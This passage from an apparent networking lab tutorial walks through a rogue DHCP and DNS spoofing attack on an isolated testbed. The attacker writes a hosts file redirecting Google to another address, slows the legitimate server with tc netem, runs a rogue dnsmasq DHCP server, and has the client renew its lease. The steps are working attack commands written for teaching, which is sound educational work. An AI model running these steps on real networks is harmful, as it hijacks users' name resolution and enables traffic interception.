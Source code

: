 This procedure assumes that you have already run the previous attack, and so you already have the `badhosts` file set up to redirect traffic for Google to DuckDuckGo. If you _don't_ have this, run the following on the attacker:

```
ddgip=$(dig +short duckduckgo.com | head -n 1)
echo "$ddgip google.com" > ~/badhosts
echo "$ddgip www.google.com" >> ~/badhosts
```

This attack works most reliably when packets from the attacker reaching the client _before_ packets from the "good" server. To ensure this happens in our experiment, we will set up some extra latency on the "good" server. Stop the `tcpdump` process on the "good" server temporarily, and run

```
sudo tc qdisc del dev eth1 root
sudo tc qdisc add dev eth1 root netem delay 500ms 2ms distribution normal
```

and then you can start the `tcpdump` again. Also, the `dnsmasq` process should still be running on the "good" server.

Now, on the attacker, start a `dnsmasq` instance:

```
sudo service dnsmasq stop
sudo dnsmasq --interface=eth1 --dhcp-range=10.10.1.20,10.10.1.50,255.255.255.0,72h --no-hosts --addn-hosts=badhosts -d
```

Note the `addn-hosts` option we are using, to tell `dnsmasq` to respond to queries for hostnames listed in the `badhosts` file with the corresponding addresses listed there.

Now, on the client node, run

```
# release current IP address, if any
sudo dhclient -r eth1
# kill any dhclients that may be running already
sudo killall dhclient
# clear current IP address
sudo ifconfig eth1 0.0.0.0
# request IP address
sudo dhclient eth1
```

to ask for an IP address from DHCP over the private LAN. You should see offers from both `dnsmasq` instances - on the "good" server and on the attacker - in the terminal output. But only one server will then get a request from the client. On the client, check the actual IP now used with

```
ifconfig eth1
```

Also, on the client run

```
cat /etc/resolv.conf
```
